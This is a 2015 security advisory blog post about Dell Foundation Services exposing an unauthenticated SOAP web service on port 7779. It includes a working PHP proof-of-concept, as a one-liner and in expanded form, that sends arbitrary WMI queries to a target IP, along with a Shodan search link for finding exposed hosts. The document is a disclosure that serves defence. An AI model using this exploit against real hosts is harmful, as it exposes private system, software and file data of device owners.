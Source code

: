 ```yaml
---
layout: post
title: "Security Advisory: Dell Foundation Services Remote Information Disclosure (II)"
date: 2015-11-25
categories:
---
```


*By slipstream/RoL.*

# Overview

Dell Foundation Services (otherwise known by its internal name of "Tribbles") "provides a core set of foundational services facilitating customer serviceability, messaging and support functions".

# Issues

Dell Foundation Services starts an HTTPd that listens on port 7779. The previous service tag leak was fixed by removing the JSONP API.

However, the webservice in question is still available; it is now a SOAP service, and all methods of that webservice can be accessed, not just the ServiceTag method.

One of the methods accessible is `List<WmiManagementItem> GetWmiCollection(string wmiQuery)` - this returns the results of a given WMI (Windows Management Instrumentation, "the infrastructure for management data and operations on Windows-based operating systems") query, enabling access of hardware information, installed software, running processes, installed services, accessible hard disks, filesystem metadata (filenames, file size, dates) and more.

[Many potentially vulnerable hosts can be found via Shodan](https://www.shodan.io/search?query=port%3A7779+httpapi+404&language=None) and the issue can also be exploited over a LAN.

Quick PHP one-liner proof-of-concept:

````
php -r "function wmic($ip,$query) { var_dump(dowmic($ip,$query)); } function dowmic($ip,$query) { return callApi($ip,'GetWmiCollection',array(new SoapVar($query,XSD_STRING,null,null,'wmiQuery','http://tempuri.org/'))); } function callApi($ip,$method,$params = array()) { return (new SoapClient(null,array('location'=>'http://'.$ip.':7779/Dell%20Foundation%20Services/ISystemInfoCapabilitiesApi','uri'=>'http://tempuri.org/')))->__soapCall($method,$params,array('soapaction'=>'http://tempuri.org/ISystemInfoCapabilitiesApi/'.$method)); } wmic('','');"
````

This can be expanded to:

````
<?php
function wmic($ip,$query) {
	var_dump(dowmic($ip,$query));
}

function dowmic($ip,$query) {
	return callApi($ip,'GetWmiCollection',array(new SoapVar($query,XSD_STRING,null,null,'wmiQuery','http://tempuri.org/')));
}

function callApi($ip,$method,$params = array()) {
	return (
		new SoapClient(null,array('location'=>'http://'.$ip.':7779/Dell%20Foundation%20Services/ISystemInfoCapabilitiesApi','uri'=>'http://tempuri.org/'))
	)->__soapCall($method,$params,array('soapaction'=>'http://tempuri.org/ISystemInfoCapabilitiesApi/'.$method));
}

wmic('','');
````

# Affected Versions

3.0.700.0.

# Solution

Uninstallation of Dell Foundation Services will prevent exploitation of the issue. The researchers cannot sanction any mitigations except to remove this software definitively from any affected devices.
